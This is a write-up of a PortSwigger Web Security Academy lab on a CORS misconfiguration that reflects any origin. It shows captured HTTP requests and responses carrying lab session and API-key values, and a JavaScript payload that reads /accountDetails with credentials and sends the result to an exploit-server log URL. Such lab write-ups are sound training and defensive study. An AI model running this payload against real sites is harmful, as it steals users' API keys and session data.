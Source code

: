 # PortSwigger CORS Lab 1: CORS vulnerability with basic origin reflection

## Instructions

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploit

There is a API key leaked on the `accountDetails` endpoint

![](attachments/Pasted%20image%2020250824081849.png)

Looking at this in the proxy shows the request and response.

```
GET /accountDetails HTTP/1.1
Host: 0a6300590490f183806703ee00fc00ea.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Referer: https://0a6300590490f183806703ee00fc00ea.web-security-academy.net/my-account?id=wiener
Connection: keep-alive
Cookie: session=vkjmdpJMH5KB0bv3S6fwEs4msYf62T7O
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: magenta
Priority: u=4


```

```
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 149

{
	"username": "wiener",
	"email": "",
	"apikey": "o5BObzi7TrabVjCMQedPZO3Zhwams76K",
	"sessions": [
		"vkjmdpJMH5KB0bv3S6fwEs4msYf62T7O"
	]
}
```

If we send another request with an arbitrary Origin header, we see that the arbitrary value is reflected in the `Access-Control-Allow-Origin` response header. This means that a site on any origin can make requests to the vulnerable site and read the responses. 

![](attachments/Pasted%20image%2020250824081834.png)

We can use the payload from Payloadsallthethings at https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#origin-reflection

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a6300590490f183806703ee00fc00ea.web-security-academy.net/accountDetails',true); 
req.withCredentials = true;
req.send();

function reqListener() {
	location='//exploit-0a6500ab0499f17080cb0247015a00ab.exploit-server.net/log?key='+this.responseText; 
};
```

Put this in the exploit server

![](attachments/Pasted%20image%2020250824081748.png)

After clicking "Deliver exploit to victim", we can check the access log and find the administrator's API key.

![](attachments/Pasted%20image%2020250824081813.png)

After submitting the admin's API key we finish the lab. 